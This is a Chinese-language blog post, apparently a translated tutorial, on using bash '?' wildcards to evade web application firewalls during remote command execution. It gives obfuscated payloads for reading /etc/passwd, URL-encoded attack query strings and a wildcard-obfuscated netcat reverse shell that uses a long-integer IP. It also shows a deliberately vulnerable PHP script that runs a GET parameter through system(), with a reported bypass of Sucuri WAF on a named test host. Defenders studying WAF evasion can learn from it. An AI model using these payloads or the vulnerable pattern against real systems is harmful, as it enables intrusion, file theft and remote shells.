





# bash和通配符用法

[2020-03-25]()

### [](#特殊的通配符用法 "特殊的通配符用法")特殊的通配符用法

Bash 标准通配符（也称为通配符模式）被各种命令行实用程序用于处理多个文件。并不是每个人都知道 bash 语法可以使用问号 `?`、正斜杠 `/`、数字和字母来执行系统命令。你甚至可以枚举文件并使用相同数量的字符获取其内容。  
  
举几个例子：  
可以使用以下语法来取代 ls 命令：`/???/?s`  
  
用这种语法，你可以基本做到你想做的任何事情。假设存在漏洞的目标位于WAF的后面，并且此 WAF 有一条规则，该规则可阻止包含 `/etc/passwd` 或 `/bin/ls` 在 GET 参数的值内或 POST 正文中的所有请求。

如果你试图发出这样的请求，`/?cmd=cat+/etc/passwd` 它将被目标 WAF 阻止，你的 IP 将被永久禁止，并被标记为 **yet another f\***in’ redteamer\*\*。但你有通配符这个秘密武器。

如果目标 WAF 不阻止查询字符串里的 `?` 和 `/`，你就可以很容易地让你的请求（url 编码）变成这样：`/?cmd=%2f???%2f??t%20%2f???%2fp??s??`  
  
上图所示，有 3 个错误：`/bin/cat *: Is a directory`。发生这种情况是因为 `/???/?t` 可以被全局进程解释成 `/bin/cat`，也可以解释成 `/dev/net` 或 `/etc/apt` 等。

问号通配符可以代表任何字符。因此，如果你知道一个文件名的一部分，那么你可以使用这个通配符。例如，`ls *.???` 将列出当前目录中所有长度为 3 个字符的文件扩展名。因此，你将会看到具有诸如 .gif，.jpg，.txt 之类扩展名的文件。

使用这个通配符，你可以用 `netcat` 执行一个反弹 shell。假设你需要在端口 1337（通常 `nc \-e /bin/bash 127.0.0.1 1337`）执行一个 127.0.0.1 的反弹 shell ，你可以用下面的语法来完成：  
/\?\?\?/n\? \-e /\?\?\?/b\?\?h 2130706433 1337

将 IP 地址127.0.0.1转换为长整数格式（2130706433），可以避免在 HTTP 请求中使用 . 字符。

在 kali 中，需要使用 `nc.traditional` 而不是 `nc`，没有 `-e`参数，以便 `/bin/bash` 连接后执行。有效载荷变成这样：

```
/???/?c.??????????? -e /???/b??h 2130706433 1337
```

  
使用通配符执行反弹 shell  
在对我们刚才看到的两个命令进行总结：

> 标准：/bin/nc 127.0.0.1 1337  
> 绕过：/\?\?\?/n\? 2130706433 1337  
> 使用字符：/ \? n \[0-9\]

> 标准：/bin/cat /etc/passwd  
> 绕过：/\?\?\?/\?\?t /\?\?\?/\?\?ss\?\?  
> 使用字符：/ \? t s

为什么使用 `?` 而不是 `*?`由于`*`广泛用于评论语法，许多 WAF 为了避免 SQL 注入而过滤它，像 `UNION+SELECT+1,2,3/*`

使用 echo 来枚举文件和目录。该 echo 命令可以使用通配符枚举文件系统上的文件和目录。例如 `echo /*/*ss*`:  


这命令可以在 RCE 漏洞中使用，以获取目标系统上的文件和目录，例如：  
  
但为什么使用通配符（特别是问号）可以绕过WAF？

### [](#Sucuri-WAF绕过 "Sucuri WAF绕过")Sucuri WAF绕过

  
测试 WAF 规则集的最佳方法是什么？创建一个有漏洞的 PHP 脚本，并尝试所有可能的技术。在上图的左上方的窗格中，是一个有漏洞的PHP脚本。

```
<?php
    echo 'ok: ';
    print_r($_GET['c']);
    system($_GET['c']);
?>
```

在左下方的窗格中，你可以看到对这个网站（test1.unicresit.it）进行远程命令执行测试。正如你所看到的，Sucuri WAF 以 **An attempted RFI/LFI was detected and blocked** 理由阻止请求。

右窗格显示了同样的请求，但却使用 `?` 作为通配符，结果是 Sucuri WAF 没有阻止这个请求，应用程序执行了放入 `c` 参数的命令。现在就可以读取 `/etc/passwd` 文件，甚至更多。

我可以读取应用程序本身的 PHP 源代码，可以使用 netcat（`/???/?c`）执行反弹 shell，或者我可以执行 curl 或 wget 来获取网络服务器的真实 IP，使我能够通过直接连接目标来绕过 WAF。

## [](#结论 "结论")结论

使用一些不常用的bash命令的技巧，还是可以绕过WAF的防护的。